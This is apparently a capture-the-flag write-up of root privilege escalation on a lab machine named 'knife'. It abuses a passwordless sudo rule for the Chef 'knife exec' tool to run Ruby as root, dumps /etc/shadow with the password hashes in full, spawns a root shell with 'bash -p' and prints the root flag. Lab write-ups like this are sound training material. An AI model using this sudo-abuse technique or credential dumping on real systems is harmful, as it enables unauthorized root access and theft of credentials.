 ## Found an interesting file root.rb-

```bash
james@knife:~$ ls -la
total 52
drwxr-xr-x 5 james james 4096 May 30 18:29 .
drwxr-xr-x 3 root  root  4096 May  6 14:44 ..
lrwxrwxrwx 1 james james    9 May 10 16:23 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Feb 25  2020 .bashrc
drwx------ 2 james james 4096 May  6 14:45 .cache
drwxrwxr-x 3 james james 4096 May  6 16:32 .local
-rw-r--r-- 1 james james  807 Feb 25  2020 .profile
-rw-r--r-- 1 james james   20 May 30 18:11 roote
-rw-r--r-- 1 james james   30 May 30 18:29 root.rb
-rw-rw-r-- 1 james james   66 May  7 14:16 .selected_editor
drwx------ 2 james james 4096 May 30 17:50 .ssh
-r-------- 1 james james   33 May 30 17:43 user.txt
-rw------- 1 james james 1668 May 30 17:50 .viminfo
james@knife:~$ cat root.rb 
puts File.read('/etc/shadow')
```
#### But we can't execute it as there is no ruby  installed on the machine.
## sudo -l

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

####  When we run `sudo -l` there is a file called `knife` which we run with sudo `privilege` and when we see that file inside `/usr/bin/knife` we see a symlink with the file inside `/opt/chef-workstation/bin/knife`

```bash
james@knife:~$ ls -la /usr/bin/knife
lrwxrwxrwx 1 root root 31 May  7 11:03 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```

#### When we go inside `/opt/chef-workstation` directory then we known that it's a `ruby` installation directory-

```bash
james@knife:/opt/chef-workstation$ cd /opt/chef-workstation/
james@knife:/opt/chef-workstation$ ls -la
total 184
drwxr-xr-x 7 root root  4096 May 18 13:20 .
drwxr-xr-x 5 root root  4096 May 18 13:20 ..
drwxr-xr-x 2 root root  4096 May 18 13:20 bin
drwxr-xr-x 3 root root  4096 May 18 13:20 components
drwxr-xr-x 9 root root  4096 May 18 13:20 embedded
-rw-r--r-- 1 root root 13175 Feb 15 22:06 gem-version-manifest.json
drwxr-xr-x 2 root root  4096 May 18 13:20 gitbin
-rw-r--r-- 1 root root 85859 Feb 15 22:06 LICENSE
drwxr-xr-x 2 root root 36864 May 18 13:20 LICENSES
-rw-r--r-- 1 root root 13681 Feb 15 22:06 version-manifest.json
-rw-r--r-- 1 root root  4287 Feb 15 22:06 version-manifest.txt
```

#### It's mean we can `execute` ruby files and commands with `/usr/bin/knife` not with the ruby command that's why we can't execute that file `root.rb` inside james home directory-

```bash
james@knife:~$ sudo /usr/bin/knife exec root.rb 
root:$6$LCKz7Uz/FuWPPJ6o$LaOquetpLJIhOzr7YwJzFPX4NdDDHokHtUz.k4S1.CY7D/ECYVfP4Q5eS43/PMtsOa5up1ThgjB3.xUZsHyHA1:18754:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18753:0:99999:7:::
sshd:*:18753:0:99999:7:::
systemd-coredump:!!:18753::::::
james:$6$S4BgtW0nZi/8w.C0$pREFaCmQmAue0cm6eTgvF.vFdhsIdTr5q6PdrMVNCw4hc7TmlSqAcgMz0yOBG7mT6GcoH9gGbo.zLLG/VeT31/:18754:0:99999:7:::
lxd:!:18753::::::
```

#### Let's edit the file to get the `root` privileges-

![[Pasted image 20210530143600.png]]

```bash
james@knife:~$ nano root.rb
james@knife:~$ sudo /usr/bin/knife exec root.rb
james@knife:~$ /bin/bash -p
bash-5.0# whomai
bash: whomai: command not found
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
delete.sh  root.txt  snap
bash-5.0# cat root.txt 
bc878a6439c82943bab66a2b07550e56
```



PAWNED!!!